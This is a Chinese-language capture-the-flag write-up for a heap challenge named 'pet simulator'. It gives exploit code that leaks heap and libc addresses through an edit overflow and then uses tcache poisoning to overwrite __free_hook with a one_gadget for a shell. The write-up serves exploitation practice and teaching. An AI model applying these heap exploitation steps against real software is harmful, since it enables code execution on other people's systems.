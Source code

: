 # pet simulator  
堆题，保护全开。这题一开始忘给libc附件了，我不知道是tcache所以一开始没敢做，然后free后发现有tcache的特征才确认。  
**add**  
![](./pics/add.png)  
**show**  
![](./pics/show.png)  
**del**  
![](./pics/del.png)  
**edit**  
![](./pics/edit.png)  
**comment**  
![](./pics/comment.png)  
发现edit可以覆盖到下一个chunk的前一部分，因此可以把tcache中的指针泄露出来。  
```
add()
add()
add()
free(1)
edit(0,b'a'*0x40)
show(0)
p.recvuntil(b'a'*0x40)
getaddr=u64(p.recv(6).ljust(8,b'\x00')) #堆地址
print('getaddr:',hex(getaddr))
edit(0,p64(0)*6+p64(0x61)+p64(0))#还原
```
得到堆地址后利用tcache投毒，使新的chunk开到有libc函数地址的地方，用show打印出来就行了。  
![](./pics/gdb.png)  
gdb调试发现在getaddr+0x7a0附近就有libc，选择这个地方的另一个原因是chunk开在这后size为0x1e1，free时不会出错（这题最多只能开3个chunk，资源非常紧张，我一开始为了得到libc开在其他地方，由于size为0不能free，耽误了好久）  
```
add()
add()
edit(2,b'a'*0x40)
show(2)
p.recvuntil(b'a'*0x40)
libcaddr=u64(p.recv(6).ljust(8,b'\x00')) #libc地址
print('libcaddr:',hex(libcaddr))
libcbase=libcaddr-libc.sym['_IO_2_1_stderr_']
print('libcbase:',hex(libcbase))
free_hook=libcbase+libc.sym['__free_hook']
print('free_hook:',hex(free_hook))
one_gadget=libcbase+0xe3b01
system_addr=libcbase+libc.sym['system']
```
得到的其实是_IO_2_1_stderr_的地址，由此可以得到libcbase。  
最后再次利用一次tcache投毒使free_hook为one_gadget即可  
```
edit(2,b'\x00'*0x50)
free(2)
add()

free(2)
free(1)
edit(0,p64(0)*6+p64(0x61)+p64(free_hook-0x40))
add()
add()
edit(2,p64(0)*3+p64(one_gadget))
free(0)
p.interactive()
```
注意如果当时为了得到libc时开的chunk不能free，那么就不能完成最后一次投毒。  
整个过程没用到comment函数，感觉这个函数没啥作用。